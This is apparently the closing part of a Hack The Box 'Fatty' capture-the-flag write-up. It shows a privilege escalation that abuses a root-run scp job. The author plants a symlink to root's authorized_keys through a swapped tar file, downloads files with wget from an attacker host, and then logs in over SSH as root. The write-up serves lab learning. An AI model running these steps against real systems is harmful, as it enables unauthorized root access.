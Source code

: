 First create a logs\_key.tar file with public key contents

```bash
cat id_rsa.pub > logs_key.tar
```

Create a link called `logs.tar` pointing to root authorized\_keys, and compress it as .tar

```bash
$ ln -s /root/.ssh/authorized_keys logs.tar
$ tar -cvf logs_link.tar logs.tar
logs.tar
```

Inside the container download both files and remove existing `logs.tar` file.

First step in this privesc is to put the link, copy link tar as original name `logs.tar` and wait a minute.

```bash
2f265ce12800:/opt/fatty/tar$ wget http://10.10.14.31/logs_key.tar
2f265ce12800:/opt/fatty/tar$ rm logs.tar
2f265ce12800:/opt/fatty/tar$ cp logs_link.tar logs.tar
```

At this point the link might be created, clean previous `logs.tar` and replace it with our key file

```bash
2f265ce12800:/opt/fatty/tar$ wget http://10.10.14.31/logs_key.tar
2f265ce12800:/opt/fatty/tar$ rm -rf logs.tar
2f265ce12800:/opt/fatty/tar$ cp logs_key.tar logs.tar
```

We can see the files were copied two times

```bash
#pspy64

2020/06/23 18:11:01 CMD: UID=0    PID=912    | sshd: [accepted]
2020/06/23 18:11:01 CMD: UID=22   PID=913    | sshd: [net]
2020/06/23 18:11:01 CMD: UID=0    PID=914    | sshd: qtc [priv]  
2020/06/23 18:11:02 CMD: UID=1000 PID=915    | scp -f /opt/fatty/tar/logs.tar


2020/06/23 18:12:01 CMD: UID=0    PID=919    | /usr/sbin/sshd -R
2020/06/23 18:12:01 CMD: UID=22   PID=920    | sshd: [net]
2020/06/23 18:12:01 CMD: UID=0    PID=921    | sshd: qtc [priv]  
2020/06/23 18:12:01 CMD: UID=1000 PID=922    | ash -c scp -f /opt/fatty/tar/logs.tar
```

## Root

After the second `logs.tar` is downloaded, we can SSH into the box as root user.

```bash
$ ssh root@server.fatty.htb -i id_rsa
Linux fatty 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jan 29 12:31:22 2020
root@fatty:~# id
uid=0(root) gid=0(root) groups=0(root)
root@fatty:~# hostname
fatty
root@fatty:~# cat root.txt
```